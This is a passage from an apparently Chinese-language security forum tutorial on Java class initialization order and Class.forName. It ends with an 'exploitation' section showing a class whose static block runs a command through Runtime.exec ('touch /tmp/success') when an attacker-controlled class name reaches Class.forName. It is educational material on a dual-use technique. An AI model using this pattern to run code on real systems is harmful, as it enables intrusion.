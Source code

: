 这里是三种不完全一致的初始化的方法。

分别通过两种方法输出来测试一下：

```java
public static void main(String[] args) throws IOException, ClassNotFoundException {
    Class.forName("TrainPrint");  //刚刚说到的初始化
}

public static void main(String[] args) throws IOException, ClassNotFoundException {
   TrainPrint test= new TrainPrint();  //new关键字的实例化
}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-43971538dbf242b2d848268f6698c7547bbc947b.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-3378bb01b432033e4f01555f4571ccbd2300f704.png)

可以发现：

> 类的实例化：`static {}`-&gt;`{}`-&gt;`构造函数`  
> 类的初始化：`static {}`
> 
> 下面是另一个师傅探寻的加上父类的情况：
> 
> 具有父类的类的实例化：`父类静态初始块`-&gt;`子类静态初始块`-&gt;`父类初始块`-&gt;`父类构造函数`-&gt;`子类初始块`-&gt;`子类构造函数`  
> 具有父类的类的初始化：`父类静态初始块`-&gt;`子类静态初始块`

所以说， forName 中的 `initialize=true` 其实就是告诉 Java 虚拟机是否执⾏ 类初始化，而不是 实例化，要注意这两个是不同的。

#### 利用

假设存在这样一个函数，并且其中的参数 name 我们可控

```java
public void ref(String name) throws Exception {
    Class.forName(name);
}
```

那么我们就可以编写一个恶意类，利用初始化来执行我们编写的恶意类中的 `static` 块中的恶意代码

```java
import java.lang.Runtime;
import java.lang.Process;
public class TouchFile {
     static {
         try {
             Runtime rt = Runtime.getRuntime();
             String[] commands = {"touch", "/tmp/success"};
             Process pc = rt.exec(commands);
             pc.waitFor();
         } catch (Exception e) {
             // do nothing
         }
     }
}
```

